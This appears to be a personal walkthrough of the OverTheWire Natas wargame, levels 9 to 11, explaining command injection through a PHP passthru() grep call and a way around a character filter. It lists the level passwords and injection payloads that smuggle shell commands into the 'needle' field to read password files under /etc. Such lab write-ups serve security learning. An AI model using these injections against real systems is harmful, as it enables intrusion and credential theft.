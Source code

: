 ## 9->10
- http://natas9.natas.labs.overthewire.org/
- `natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`
- This level exploits command injection vulnerability. The script takes a `needle` parameter, and directly uses it in the `passthru()` function without sanitization. Since there is no input validation, we can inject additional shell commands.
- `; ls /etc/ #`
- `; ls /etc/natas_webpass #`
- `; cat /etc/natas_webpass/natas10 #`
  - Uses a semicolon (`;`) to terminate the grep command
  - Runs `cat /etc/natas_webpass/natas10` to display the password file
  - Uses `#` to comment out the rest of the command
  - Server executes: `grep -i ; cat /etc/natas_webpass/natas10 # dictionary.txt`
```html
...
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
...
```

## 10->11
- http://natas10.natas.labs.overthewire.org/
- `natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk`
- Looks like some input sanitization was added. Certain characters are now not allowed. Can we exploit another way?
- Yes, there's another way to achieve command injection-like behavior to read files without using `;`, `|`, or `&`, by manipulating the arguments of the `grep` command itself. The PHP script executes the command: `passthru("grep -i $key dictionary.txt");` The filter `preg_match('/[;|&]/',$key)` prevents the use of semicolon, pipe, and ampersand characters in the `$key` variable. However, other shell metacharacters or simply the structure of shell command arguments can be used. You can make grep read from an arbitrary file by passing the filename as an argument.
- We can combine `grep` with a regex expression, `^`. The `^` character in a regular expression is an anchor that matches the beginning of a line. When you use `^` as the entire pattern, `grep` looks for lines that have a beginning. Since every line in a file has a beginning (even an "empty" line that just contains a newline character), this pattern will match every line in the specified file.
- Therefore, the command `grep ^ ~/slack/sandbox/LICENSE` will effectively print all lines from the file `~/slack/sandbox/LICENSE` to the standard output. It's a way to display the entire content of a file, similar in output to `cat ~/slack/sandbox/LICENSE` for non-empty files, but it does so by matching a pattern at the start of each line.
```html
```